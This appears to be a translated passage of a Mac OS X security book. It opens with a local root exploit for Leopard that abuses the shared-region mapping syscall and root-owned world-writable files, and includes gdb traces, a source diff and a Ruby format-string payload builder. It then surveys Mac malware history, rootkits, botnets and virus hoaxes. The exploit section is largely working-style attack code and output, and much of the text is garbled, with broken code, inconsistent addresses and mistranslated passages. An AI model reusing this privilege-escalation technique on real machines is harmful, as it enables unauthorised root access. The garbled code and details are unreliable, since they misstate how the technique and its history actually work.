在跳转到测试 NOP 时，一切看起来都很正常。

```
Breakpoint 2, 0xa0a8000a in ?? ()
(gdb) x/i $eip
0xa0a8000a: nop
(gdb) si
0xa0a8000b in ?? ()
(gdb) x/i $eip
0xa0a8000b: nop
(gdb) si
0xa0a8000c in ?? ()
(gdb) x/i $eip
0xa0a8000c: xor %ah,0x96bc
```

## 过去与现在的威胁 · 第2章

```c
SHARED_REGION_TRACE_ERROR(
  "shared_region: %p [%d*s] map(p:%s): "
  "owned by uid=%d instead of 0\n",
  current_thread(), p->p_pid, p->p_comm,
  vp, vp->v_name, va->va_uid())
error = EPERM;
goto done;
);
```

请参见 `www.phark.org/issues.html?issue=64&id=11` 以及 `http://fxr.watson.org/fxr/source/bsd/vm_linux.c?v=xnu-1228`。

来自 **Nemo** 提供的 `sharedcode.c` 示例发表在 *Phark* 杂志上。如果你尝试在 Leopard 系统上编译它，你会发现一些需要修改的地方。

```bash
localhost:pownerig kfinisterre$ cc -o sharedcode sharedcode.c
sharedcode.c in function 'main'
sharedcode.c:88: error: 'SYS_shared_region_map_file_np' undeclared
(first use in this function)
sharedcode.c:88: error: (Each undeclared identifier is reported only once
sharedcode.c:88: error: for each function it appears in.)
```

为了绕过文件所有权限制，我们需要发布一个命令来挖掘某些由 root 所有且对我们的组可写或所有人可写的文件。

```bash
localhost:pownerig kfinisterre$ diff sharedcode.c sharedcode.c.orig
20c20
< #define FILENAME "./DS_Store"
---
> #define FILENAME "tmp/mapme"
82c88
< if(syscall(295,fd,1,&sr,NULL)) == -1
---
> if (syscall(SYS_shared_region_map_file_np,1,&sr,NULL)) == -1)
```

奇怪的是，`./DS_store` 处处以 root 所有权出现，因此它是一个很好的目标。像 Cisco VPN 和 Divx Player 这样的第三方应用程序也会留下 root 所有的 `rw-rw-` 文件。我建议你使用它们！

```bash
localhost:pownerig kfinisterre$ ls -al ./DS_Store
-rw-rw-rw 1 root wheel 6148 Mar 6 17:09 ./DS_Store
localhost:pownerig kfinisterre$ ls -al /private/etc/opt/cisco-vpnclient/vpnclient.ini
```

## 第2章 + 过去与现在的威胁

```
-rw-rw- wheel 385 Feb 15 23:25 /private/etc/opt/cisco-vpnclient/vpnclient.ini
```

```bash
localhost:leopard_stubs knisserie$ ./shared-code
[+] shellcode: 0x9fffff71.
```

一旦利用漏洞存储 shellcode 的事实被映射到内存中，情况看起来就相当顺利了。我们使用多次写入来构造地址。我们使用的格式化技术非常常见，因此不再进行深入解释。简单来说，我们正在用 `0xffffff71` 覆盖保存的返回地址 `0xbffff71c`，这是 Nemo 的全局 shellcode 的地址。

```
???AAAA??bffff72.bffffd8.8fe1872.1000.


```

```


1947558.
```

```
Program received signalTRAP, Trace/breakpoint trap.
0x8fe0101 in __dyld_start (
(gdb) c
Continuing.
Reading symbols for shared libraries ... done
bash-32s
```

与其说在命令行中使用 Perl，我更倾向于使用 Ruby 脚本。以下代码会在 STDOUT 上创建脚本，并在 STDERR 上提供额外信息。

```ruby
#!/usr/bin/ruby
def addr_to_asc(addr)
```

```ruby
low = (addr & 0x0000ffff)
high = (addr & 0xffff0000) >> 16
a = (low & 0x0ff)
b = (low & 0xff00) >> 8
c = (high & 0xff00) >> 8
printf("%s-%s-%s", a.chr, b.chr, c.chr)
```

```ruby
def hex_to_low(addr)
# pad = 0xb
pad = 0xa
low = (addr & 0x0000ffff) - (pad+3)
```

```ruby
def hex_to_high(addr)
# pad = 0xb
pad = 0xa
high = ((addr & 0xffff0000) >> 16) - (pad)
```

```ruby
def what_where(what,where)
diff = hex_to_low(what).to_i - hex_to_high(what).to_i
STDERR.print("Writing 0x%x => 0x%x\n", what, what)
# This is the actual check
if diff == 0
    STDERR.print("High order bits are greater than the lower bits\n")
    STDERR.print("Writing %d bytes => 0x%x\n", hex_to_high(what), where)
    STDERR.print("Writing %d bytes => 0x%x\n", diff, where+2)
else
    STDERR.print("Low order bits are greater than the high bits\n")
    STDERR.print("Must write to addresses in reverse order\n")
    STDERR.print("Writing %d bytes => 0x%x\n", hex_to_high(what), where)
    STDERR.print("Writing %d bytes => 0x%x\n", diff, where+2)
end
```


```ruby
constant = {
  where => hex_to_high(what), # High order bits
  where+2 => ((65536 - hex_to_high(what)) + hex_to_low(what)) # Low order bits - need to wrap to 0xffffff
}
def do_write(ret,target, offset)
  fmtstr = ""
# need an ascii representation of each order
  addrs = what_where(ret,target)
  addrs.each do |key,value|
    fmtstr += add_to_asc(key) + fmtstr
  end
  addrs.each do |key,value|
    fmtstr += fmtstr + sprintf("%04d", value, offset)
    offset = offset - 1
  end
  STDOUT.print fmtstr + "\n"
end
offset = 4
ret = 0xa3fb004
target = 0xfffffc
do_write(ret,target,offset)
```

```bash
localhost:tmp ruby /tmp/mathelper.rb
Writing 0xa3fb004 => 0xfffffc
High order bits are greater than the low bits
Writing 41013 bytes => 0xfffffc
Writing 4034 bytes => 0xfffffe
```

重启几次后，我们覆盖的保存返回地址似乎是静态的；然而，我们也发现了几处可以写入的地方。并不一定有针对 Nemo 代码的地方，我们可以直接写入内存的库段。

```
vmmap 3980 -all
=== Writable regions for process 4117
```

```
unused split 9ffff000-a000000 [4K] rwx/rwx SM=COW
unused split a0000000-a03fb00 [4076K] rw-/rw- SM=COW
```

# 第3章

本章中的解决方案：

- 恶意软件分类
- 前 OS X 恶意软件
- OS X 与恶意软件
- 总结
- 快速通道
- 常见问题

## 引言

我能听到有些读者在嘀咕：“你在说什么？Mac 上没有恶意软件！”好吧，请听我慢慢道来。在 20 世纪初，我合作的一位 Macintosh (Mac) 专家看了我写的一篇关于病毒的论文并说：“我很遗憾，但你应该知道并没有 Mac 病毒。”抱歉，当时她是错误的，现在也是如此，那些这样说的 Mac 爱好者也是如此。

### 损害与防御

我比……老得多

在某种意义上，过去的 Mac 病毒比现在多。早期病毒只适用于早期版本的操作系统 (OS)。此外，研究人员认为最早病毒出现早于 IBM PC。2007 年 7 月，佛罗里达学院信息安全中心的研究教授、《病毒快》前编辑 Richard Ford 回顾了《病毒的 25 年》(www.npr.org/templates/story/story.php?storyid=1954260)，将 Rich Skrenta 的 1982-1983 年 Apple II 病毒“El Cloner”作为他的起点。（Apple II 在 Apple Mac 之前，而且在我最后使用的硬件仍然保持了一定的后兼容性）。

实际上，复制型恶意软件远得更远，尽管部分取决于精确定义。（我们在反恶意软件研究社区非常喜欢精确定义。这就是为什么我们有这么多，而且它们大多数互不兼容。）

在《病毒真相》(Osborne, 2001) 中，Robert Slade 回溯了 1981 年的 Apple II 病毒。Peter Szor 在《计算机病毒研究与防御艺术》(Symantec/Addison-Wesley, 2005) 中特别提到了 Creeper，它运行在 PDP-10 上，而 ANIMAL 是在 UNIVAC 主机上创建的。

### 图 3.1 恶意 PC 程序告诉它自己是什么（某种程度上）



恶意 PC 程序（实际上是 Windows 恶意软件）的数量正在持续剧增。然而，针对 Macintosh 的恶意软件病毒数量已经保持多年不变。事实上，我在1997 年的病毒公告会议（Virus Bulletin Conference）上发表了一篇论文，在其中指出Mac 的病毒威胁数量多年来一直停滞在 35 个左右，其中只有少数在运行 System 7 更早版本 Mac OS 的旧系统上构成重大威胁。事实证明，那是在自取其灭。

## 工具与陷阱

### 给安全作者的注

到 1998 年，AutoStart 蠕病毒作为迄为止最严重的 Macintosh 恶意软件问题之一，虽然传播速度缓慢（与随后十年出现的群邮件发送器和网络蠕病毒相比），但在全球范围内无情地扩散。正如 Daniel Delberto McCracken 曾明智地说的：“不要对你一生中无法验证的计算领域做出预测。”

回到 1997 年，除了系统病毒和少数非复制型木马（它们通常生命周期很短）之外，在 Macintosh HyperCard 感染病毒领域，最接近增长行业的可能是所谓的波中宏病毒——这可以认为是第一波宏病毒，但它是针对一个特定小众产品的，而该产品作为超媒体和多媒体的催化剂以及其杀手级应用本身产生了深远的影响。

## 恶意软件分类

恶意软件有很多种类，尽管并非所有的都适用于 Macintosh 环境。例如，Macintosh 平台并没有类似于 PC 引导区感染器（BSI）或主引导记录（MBR）感染器的密切对应物，除非你考虑了恶意代码对模拟 PC 环境可能带来的风险。

当你像我一样一直在写关于病毒的文章时，你会发现已经没有定义各种恶意软件（恶意程序）的新颖且有趣的方法了，尤其是很少有某种定义是某个某地的人不会认同的。如果你像我一样阅读（或编写）这类内容已经很久，你会在这一部分发现没有新东西，但至少我包含了它们，这样我们讨论的就是同一个话题。

### 病毒

病毒是一种会复制的程序。关于其含义的经典定义是由 Fred Cohen 博士使用的，他几乎发明了计算机病毒学领域：“……一种程序，通过修改其他程序以使其包含自己的一个（可能是经过演化的）副本来‘感染’其他程序。”（实际上，这是对一个数学定义给出的中等易懂的英文版本，看得我直流泪水。）

病毒可以使用许多类型的宿主，包括：

- 可执行文件，如系统实用程序和应用程序
- 硬盘引导区
- 脚本文件，如 Windows 脚本或 Visual Basic 脚本
- 文档宏。这现在已不常见了，例如 Microsoft Word 宏将不再默认执行。然而，Macintosh 用户过去曾是宏病毒传播的主要渠道，因为他们曾认为这纯粹是 PC 的问题，或者认为他们的免费防病毒程序会检测到它们。

当病毒将自己插入其他可执行代码中时，它确保了在其他代码运行时它也会随之运行，病毒通过寻找其他“干净”的宿主进行感染来传播。某些病毒会覆盖原始文件，有效地销毁它们，但许多病毒只是简单地插入自己成为宿主程序的一部分。取决于编码方式，病毒可以在单个系统中跨越许多文件，并通过文件共享、文档和磁盘引导区跨网络传播。许多病毒是通过电子邮件传播的，尽管许多群邮件发送器和其他通过邮件传播的恶意软件可能更恰切地定义为蠕病毒或木马。注意，病毒的定义特征是它以寄生方式复制；它不一定具有破坏性载荷，甚至可以没有任何载荷。然而，可以认为所谓的良性病毒（即不故意或不造成重大损害的病毒）会造成一些附带损害（例如，与其他软件不兼容、“盗取”处理周期和磁盘空间，以及诸如损害声誉等社会风险）。

本章稍后部分将描述一些曾经常见（尽管与 PC 的数量不可比拟）的非 OS X 病毒，但 OS X 的病毒寥寥无几。这反映了病毒在 PC/Windows中重要性的下降，在那里，最显著的现代恶意软件属于木马的众多类别之一。

### 蠕病毒

Fred Cohen 博士将蠕病毒描述为病毒的“特例”，尽管并非所有研究人员都完全同意。然而，蠕病毒和病毒共享复制这一共同定义属性。蠕病毒和病毒的主要区别在于，病毒是寄生的，而蠕病毒是非寄生的；它是一个独立的程序。

### 木马

在恶意软件术语中，木马是一种表现为执行理想功能的程序，甚至可能如其所言，但它包含了一些受害者没有预料也不想要的功能。一个简单的例子是一个声称是实用工具的程序，但在执行时实际上会删除文件和文件夹。

编写木马通常更简单，特别是设计为纯粹破坏性的木马，但这不需要高超的编程技巧。然而，并非所有木马都是执行破坏性操作并显示得意消息的“陷阱”程序。非破坏性木马包括许多类恶意软件、键盘记录器和密码窃取器（用于身份盗窃、未经授权访问、银行欺诈、钓鱼等）、僵尸代理、根程序等。

## 第 3 章 • 恶意 Mac：恶意软件与 Mac

- 维持对受攻击系统的特权访问和控制
- 允许个人和/或软件以攻击者选择的任何方式利用该访问权限
- 隐藏或限制对对象或进程的访问，例如：
    - 进程
    - 线程
    - 文件
    - 文件夹/目录/子目录
    - 注册表项
    - 句柄 (Handles)
    - 端口

这些术语中有些（并非全部）最常用于 Windows 系统语境，但其底层概念适用于所有现代系统。请注意，这些定义并不预设：

- 侵入，即未经授权的访问
- 恶意行为或意图
- Root 或获取不当且未经授权的访问级别和权限。

大多数现代操作系统（尤其是那些允许多个用户账户访问的系统）对敏感数据和关键系统应用合法的隐藏和/或限制访问。例如，这样做是为了防止终端用户访问其他用户的数据，或防止他们破坏系统或数据的完整性。Andrew Lee 和我的一篇论文详细讨论了 rootkit（根内核）的技术细节，尽管它几乎没有提到 Mac rootkit，同时也提供了大量关于进一步信息的线索。它甚至讨论了索尼的数字权利管理“rootkit”，尽管不是索尼从 SunCom 租用的那个具有相似 Mac 功能的包，见：www.eset.com/download/whitepapers/Whitepaper-Rootkit_Root_Of_All_Evil.pdf。你也可以找到 Bruce Schneider 写的关于索尼系统的这篇博客：http://www.schneider.com/blog/archives/2005/11/sonys_drm_root.html。

目前已知的 rootkit 有几个，包括 oxxr、WeaponX 和 toroot。虽然 rootkit 并非专门针对类 UNIX 环境（且有争议认为它们并不存在，因为有大量的 Windows rootkit），但自从 Mac OS 变为基于 BSD 之后，它们才变成了 Mac 的一个问题。事实上，采用 UNIX 基础设施尽管具有许多优势，但也让 Mac 用户暴露在更多潜在攻击面前：

- 存在广泛的现有恶意代码库，可以很容易适配到 Mac 环境
- 恶意软件作者拥有的比早期操作系统版本更广泛的免费、跨平台开发工具。

这并不意味着 Mac 恶意软件蠕虫或 Perl 木马即将席卷而来。显然，影响因素不仅是开发工具和示例代码的可用性，因为这些对于潜在的 Mac 恶意代码编写者已经可以使用多年了。

### 机器人（Bots）与僵尸肉网络

当我们谈论机器人（bot）威胁时，我们指的是旨在利用受攻击的机器进行犯罪目的的恶意软件。机器人是一个受远程实体控制的互联系统网络，每个系统都被一个或多个机器人入侵，并结合在一起执行由许多互联机器比孤立机器更有效地执行的攻击。机器人并不构成像病毒或蠕虫那样的单一恶意软件类别，但它们确实属于木马这一大类。某些机器人还符合蠕虫或群发邮件的定义，而另一些则依赖于通过垃圾邮件等外部机制进行传播。一个定义性特征是，机器人在所有者不知情的情况下入侵受害者系统，以便对其进行远程管理，不仅是单独管理，而是与许多其他受攻击机器协同管理。机器人的大大类包括单二进制可执行文件（如 SubSeven）、多个脚本和/或二进制文件、后门和其他形式的间谍软件，甚至某些邮件发送器。

一旦机器在受攻击系统上立足跟，机器人就会监听来自远程攻击者的指令。这是通过“命令与控制”（C&C）机制实现的。许多僵尸网络通过互联网中继聊天（IRC）拥有一个或多个 C&C 服务器。更广泛的机制和协议被使用，有些根本不使用 C&C 服务器。大多数著名的机器人是 PC 可执行文件，并利用一些针对 PC 的特定点（例如安全性不高的网络共享）来入侵活动机器人。

无人机（Drones）和僵尸（zombies）是受位于受攻击系统上的代理软件控制的系统，允许机器人主维持控制。系统可以通过自启动的 0-day 漏洞（如缓冲区溢出和路过下载/drive-by-downloads）、用户启动的电子邮件附件，以及已受攻击的系统通过网络共享进行的探测被入侵。

由单个攻击者或服务器控制的受机器人入侵的机器网络被称为僵尸网络（botnet）。报告有成千或上万个僵尸网络的情况并不罕见。IRC 是一种运行在多台机器上的分布式远程会议系统。这种模型提供了一个非常方便的 C&C 通道。由于公共 IRC 网络变得越来越安全，机器人主必须更多地利用自己的服务器或受攻击的 PC。C&C 服务器通常运行修改过的 IRC 服务器。它们会避开传输控制协议（TCP)/6667 和 IRC 常用的其他端口，以避免在 netstat 等工具监控流量的区域引起注意。

## 模因式恶意软件（Memetic Malware）

恶意软件的骗局和神话通常是 PC 特有的，而非 Mac 特有的，而有些在任何系统中都没有现实依据。我在这里将简要提到一下它们，因为 Mac 支持人员已经习惯了被询问这些问题，而且原则上，任何可能在真实 PC 上运行的东西，可能也可能在 DOS 或 Windows 模拟器（例如 Parallels）上运行。在 90 年代中期，制造的病毒骗局产生的问题与真实病毒一样多。遗憾的是，它们的影响已经下降，但它们仍然大量存在，而且还在流传着许多其他骗局、半骗局以及到处都是浪费空间的链信。

### 地下室笔记

### 为何是模因式恶意软件

模因式“病毒”可以被描述为感染人类的大脑而非程序。事实上，被认为是“模因”概念发明者的理查德·道金斯（Richard Dawkins）写过一篇被广泛引用的文章《大脑病毒》（http://cscs.umich.edu/~crshal/Dawkins/viruses-of-the-mind.html），文章结合了计算机病毒学，还涉及自然科学和宗教历史。

他将模因描述为“文化传播的单位”（在其著作《自私的基因》中），就像基因被描述为“遗传的单位”一样。虚构的病毒（如 Good Times）有时被描述为元病毒；即关于病毒的病毒。

尽管如此，这里有一些核心事实。

- 有 10,000 人转发某条消息并不代表它是真实的。
- 人在电子邮件中（以及其他地方）会撒谎。仅仅因为消息中引用了电话号码并不代表它属于某个真实的人。提到 AOL、Nike、Microsoft、McAfee 或任何公司并不意味着这些公司认可了提到它们的消息。我最近看到过有些骗局引用 snopes.com 来证实那些该网站实际上拆穿的骗局的真实性。（该网站是检查链信真假的绝佳网站。）
- 比尔·盖斯并不是通过通过转发电子邮件作为奖励来成为世界首富的。如果邮件很容易被追踪，就不会有垃圾邮件问题。而且没有人会因为你转发了多封邮件就给你手机、2,000 美元的支票，甚至为癌症研究捐款。
- 如果一封链信包含核心消息的两个或多个微调版本，且彼此并不一致，那可能是因为它们不是真的。
- 如果一条消息说自己不是骗局、链信、垃圾邮件等等，这通常是它确实如此的良好象。

## 第 3 章 · 恶意 Mac：恶意软件与 Mac

- 在不检查有效性的情况下转发链式邮件是愚蠢的。转发框架不具信服力的链式邮件更加愚蠢。即使你不相信这些链式邮件的内容是真的，仍然转发它们是疯狂的。而转发一封让你通过转发它来防止他人转发链式邮件的链式邮件，简直不可理喻。
- 任何安全警报未经授权都不应被转发，如果有任何疑问，应由权威机构进行验证。
- 任何描述防毒软件无法检测或修复的病毒的警报，要么是骗局，要么是信息错误的。
- 有许多启发式方法（经验法则）可以成功地识别常见的骗局类型：
    - 链式邮件的特征。“将此信息转发给你认识的每个人，否则将会发生不受欢迎的与病毒相关的事件。”
    - 无日期或没有真实、可验证的日期。“昨天”或“刚由……发布”是不够的。然而，一个看似信服的日期并不能证明它不是骗局。
    - 警告中没有“最佳截止日期”或过期日期。尽管如此，此类日期的存在也不能证明任何问题。
    - 没有引用可识别的组织作为信息的来源。
    - 引用的信息来源的组织通常与病毒信息的传播没有关联，或者其在安全/防毒方面的专业知识存疑。还有一些骗局声称信息来自非常信服的信息源，例如真实的防毒软件厂商及其代表、CERT 等。这些属性旨在增加“关联信誉度”。不要轻信这些内容。
    - 未指明具体的受影响的硬件、应用程序、邮件客户端等。同样，这并不是结论性的：假设整个计算世界都使用 PC，并且经常是通用地使用特定版本的 Windows。
    - 声称在打开“被感染”的电子邮件时会造成立即且毁灭性的破坏。如果这类描述的病毒真的存在，它们根本就不是病毒；它们会是木马，且没有可靠的传播手段，因为它们在被摧毁的每一个系统上都会自毁殆尽。
- 声称具有检测或恢复的方法。
- 读起来像新闻条目或新闻稿，但没有来源迹象。
- 没有可验证的进一步信息来源。

## OS X 之前的恶意软件

我假设我不是世界上唯一仍在运行无法运行 OS X 的系统的人。好吧，至少有一个系统。实际上是一本曾经运行过 OS X 的电子书，但运行速度太慢，以至于我切换回了 9.2。但我的 MacBook 确实可以运行 Leopard。为了完美主义者，包含一些关于旧版恶意软件的信息似乎是合适的。从理论上讲，其中某些软件可能会运行在能够运行经典环境（Classic environment）的操作系统平台上（即非 Intel 驱动的平台），但在现实生活中，多年来我几乎没有看到关于大多数此类程序的报告。

### HyperCard 感染病毒


# 恶意 Mac：恶意软件与 Mac

这些是一种相当冷门的物种。据我所知，Apple 已经多年没有支持 HyperCard 了。

HyperCard 是一个用于构建应用程序的工具。虽然它有时被描述为解决不存在问题的方案，但许多人（包括作者）发现它很有用，例如作为原型设计工具，或者作为一个具有图形能力的易用数据库系统。在 System 7 发布之前，HyperCard 是系统软件分发的。随后的版本包含了免费的 HyperCard 软件，但排除了开发功能，它本质上已被取代了。

HyperCard 栈（多媒体文档）包含屏幕按钮与信息片段（例如图形、文本、声音）之间的链接，可以在不需要直接编程的情况下创建。然而，栈是基于 HyperTalk 编程语言的，这是一种高级宏脚本语言，包含了一套复杂的图形对象以及面向对象、事件驱动的处理机制。

HyperCard 病毒的数量并不特别多，但在过去的几年里，它们几乎是 Mac 上唯一的恶意软件。HyperTalk 的编写门槛非常高，允许低级编码，且不需要硬件知识。HyperCard 编程在某些方面类似于 Office 宏编程。它们不仅既强大又简单，而且由于同一文件中同时存在数据和可执行代码的特征，它们非常容易进行病毒伪装。

安全领域的权威尤金·斯帕福德（Eugene Spafford）教授拥有丰富的 Mac 恶意软件经验，他暗示 HyperCard 病毒实际上是野外首批 Mac 病毒。虽然针对 HyperCard 病毒有商业防毒软件包，但也有许多针对它们的免费程序包，例如由 Bill Swagerty 和 Ken Dunham 独立编写的工具。

- **Dukakis** 感染了 Home 栈，然后其他栈使用了它。（注：此处原文似乎存在重复或损坏）。显示“Dukakis 总统”的消息，然后其他栈使用了它。显示“Dukakis 总统”的消息，然后其他栈使用了它。（注：此处原文似乎存在重复或损坏）。
- **Code 9811** 会隐藏应用程序，并将其替换为名称类似“FIDVCXWGJKJWLOI”的垃圾文件。根据 Ken Dunham 的报告，“该病毒最明显的症状是桌面看起来像电子蠕虫，并显示一条信息‘你已被普雷托利亚人（Pretorians）黑客入侵了。’”
- **Code 32767** 每月尝试删除一次文档，但在技术上可能从未在过过。
- **Flag** 与 WDEF A 和 B 无关，但在某些防病毒软件中被命名为 WDEF-C。它不会刻意造成破坏，但如果它覆盖了 ID 为 0 的任何现有 WDEF 资源，可能会损坏某些文件。
- **Frankie** 仅影响 Atari 或 Amiga 上的 Aladdin 模拟器；它不会感染或触发真实的 Mac 或 Spectre 模拟器。它感染应用程序文件和 Finder，绘制炸弹图标并显示“Frankie 说，不再有盗版了！（Frankie says, No more piracy!）”。
- **Init 17** 感染系统文件和应用程序，首次触发时显示“来自网络空间的深处”的消息，并导致意外损坏，尤其是在 68000 系列机器上。
- **Init 29 (Init 29 A, B)** 传播显著。它感染系统文件、应用程序和文档文件，尽管文档文件不会感染其他文件。当访问锁定的软盘时，它会显示消息“你想修复它吗？”。
- **Init 1984** 感染系统扩展 (INITs)，并在 Systems 6 和 7 下运行。它在 13 号星期五触发，通过重命名文件、更改 TYPE 和 CREATOR、创建日期和修改日期来损坏文件，有时还会删除它们。
- **Init-9403 (SysX)** 在 Systems 6 和 7 下感染应用程序和 Finder。它会尝试覆盖启动卷和所有硬盘器上的磁盘信息，但仅在运行意大利版 Mac OS 的 Mac 上被发现。
- **Init-M** 仅在 System 7 下复制。它感染 INITs 和应用程序文件，并在 13 号星期五触发，造成与 Init-1984 类似的损坏。它有时会将文件或文件夹重命名为“Virus”，极少数情况下删除文件。
- **MBDF (A 和 B)** 源于四环素（Tetracycline）、Tetricycle 或“旋转方块”（tetris-rotating）木马病毒。A 毒株也在《Obnoxious Tetris》和《Ten Tile Puzzle》中传播。它感染应用程序和系统文件（包括系统和 Finder）。它会导致系统文件的意外损坏和菜单问题。MBDF 的一个轻微变体出现于 1997 年夏天。
- **MDEF A/Garfield、MDEF B/Top Cat、C、D** 感染系统文件和应用程序文件（但 D 不感染系统）。它没有造成故意的破坏，但可能导致崩溃和文件损坏。
- **MDEF-E 和 MDEF-F** 感染带有 MDEF 资源 ID 0 的应用程序和系统文件，否则不会造成损坏。
- **nVIR** 有多个变种，包括 nVIR A、B、C – AIDS、Fork、Jude、nFlu、nCAM、nVIR-f、prod 和 zero。它感染系统文件和任何打开的应用程序，不会造成故意的破坏。其载荷是蜂鸣（或者在安装了 MacTalk 的情况下说“不要恐慌（Don’t panic）”）。
- **Scores (Eric, Vult, NASA, San Jose Flu)** 旨在攻击从未正式发布的应用程序。它可能会导致意外损坏，例如系统崩溃、打印问题，或在使用 MacDraw 和 Excel 时出现问题。它感染应用程序、Finder 和 DA Handler。
- **SevenDust A 到 G（MDEF 9806-A 到 D，也称为 666, E）** 起初被称为名为“图形加速器（Graphics Accelerator）”。这是一个通过 MDEF 资源和由该资源创建的系统扩展传播的病毒家族。前四种变种被认为从未传播过。其中两个变种没有造成其他损坏。

  MDEF 9806-B 可能会擦除当前卷上的非应用程序文件。MDEF 9806-C 具有轻微的多态性并经过加密，且不带载荷。MDEF 9806-D 修改了主机应用程序的“WIND”资源。SevenDust E 不要与合法的 ATI 驱动“Graphics Accelerators”混淆，它最初是一个发布在 Info-Mac 上的木马，并在 1998 年 9 月被删除。在每月第 6 天和第 12 天的凌晨 6:00 到 7:00 之间，该病毒尝试删除启动磁盘上的所有非应用程序文件。SevenDust F 使用了木马“ExtensionConflict”、常见的扩展名称，并创建了“ACCE”。
- **T4 (A, B, C, D)** 感染应用程序，并尝试修改系统以更改启动代码。在 System 6 和 7.0 下，INITs 和系统扩展不会加载。该病毒伪装成 Disinfect（消毒），以便将行为拦截器伪装成 Gatekeeper。它最初包含在公有领域游戏 GoMoku 的 2.0/2.1 版本中，在启动时通过将自己附加到“CODE”资源从应用程序传播，并删除系统文件夹中除系统文件以外的文件以及文档。
- **WDEF (A, B)** 仅感染桌面文件。在 System 7 及之后不再传播。它没有造成故意的破坏，但可能导致蜂鸣、崩溃、字体损坏和其他问题。
- **Zuc (A, B)** 感染应用程序。当按住鼠标键时，光标会不受控制地移动，但没有造成故意损坏。
- **Virus Info** 声称包含病毒信息，但实际上会格式化磁盘。
- **Mosaic** 原本应该显示图形，但实际上会破坏目录。
- **Tetracycline（四环素）** 被认为参与了 MBDF 的原始传播。
- **PostScript “木马”** 是一个 PostScript 任务，会将打印机密码切换随机次数。Apple 激光打印机有一个固件计数器，允许更改密码的次数，因此密码最终会“锁定”在一个用户不知道的完全随机字符串上。
- **“Welcome Datacomp”** 提示的出现是使用一种带有木马性质的第三方 Macintosh 兼容键盘的结果，该键盘的 ROM 中硬编码了一个“玩笑”。文本字符串“Welcome Datacomp” 会在没有被用户手动输入的情况下出现在文档中。

## 宏病毒

在 20 世纪 90 年代中期，受感染的 Mac 数量急剧增加，整个 Mac 用户群体变成了病毒（主要是 Word 病毒）传播的主要来源。免费软件（即使是 John Nordstadt 的免费产品 Disinfectant）也因为创建新定义（如果你非要说的话，就是特征码）的困难而变得失效。这些困难主要分为两类：

- 首次，Word 文档中的宏检测一直面临着技术挑战。在 WM/Concept 首次出现时，关于文件格式本身、特别是宏的实现，几乎没有公开的文档。即使防病毒软件研究人员签署了允许他们访问专有文档的保密协议（NDA），他们发现获得的信息非常有限，并且不得不自己完成大部分研究。
- 其次，在接下来的几年里，宏病毒的数量急剧增加。对于像 Nordstadt 这样一个单行侠来说，要与拥有满实验室分析师的商业防病毒软件供应商竞争、剖析新病毒并编写定义，是不切实际的，即使他们对文件格式和其他技术问题有了先前的了解。

宏病毒首次出现远在 OS X 还是开发者脑海中的一个闪念之前。事实上，许多 Mac 用户确实在使用 Word 6（第一个支持 WordBasic 的 Mac 版 Word）或存在漏洞的 Excel 版本。几乎所有的宏病毒（如果它们存在的话）和宏木马都针对 Intel 平台（当然，那时还没有 Intel Mac），并假设了 PC 的基于 FAT 的目录结构和逻辑驱动器 C，而不是当时盛行的 Macintosh 分层文件系统（HFS）。因此，当这些病毒在受感染的 Macintosh 上触发时，它们并不会产生任何明显的影（可能只是显示一条错误信息）。然而，曾有过编写 Mac 专用或多平台病毒的尝试。操纵文档内文本的病毒在 Macintosh 上的效果通常与在 PC 上一样良好。对 Macintosh 上文件和文件系统的特定破坏很容易实现。

无论硬件如何，使用支持 WordBasic 或 Visual Basic for Applications (VBA) 的 Word 版本，或支持 VBA 的 Excel 版本的 Mac 用户，在原则上都容易受到针对这些应用程序的宏病毒的感染。事实上，这些病毒可能会感染任何支持这些应用程序版本的硬件平台上的其他文件，或具有兼容宏语言的非微软应用程序。

Mac 版 Word（5.1 版本及以下版本）不支持 WordBasic，尽管某些版本带有一个野心没那么大的第三方宏包，但因此它不会受到直接感染。虽然只有在 6.0 之前的 Mac 版 Word 版本不理解嵌入宏，但它们在没有“高速公路”实用工具打开 5.x 格式的原始文件副本的情况下，也不会读取 Word 6 文件格式。原始文件的格式在向后兼容允许的范围内得以保留，但宏被丢弃了。然而，Word 5.x 用户可能会间接导致受感染文件在跨平台和系统间的传播。

20 世纪 90 年代，有几家公司放弃了 Mac 平台，尽管有几家公司启动了新项目。Solomon's 推出了他们的 Mac 产品，当该公司收购 Vire 后，该产品最终被取代；McAfee 收购了 Disinfectant 并增加了宏检测等功能（不幸的是，它们还增加了严重的处理时间）。讽刺的是，当 McAfee/Network Associates 收购 Solomon's 时，McAfee 产品也为了 Vire 而停产。

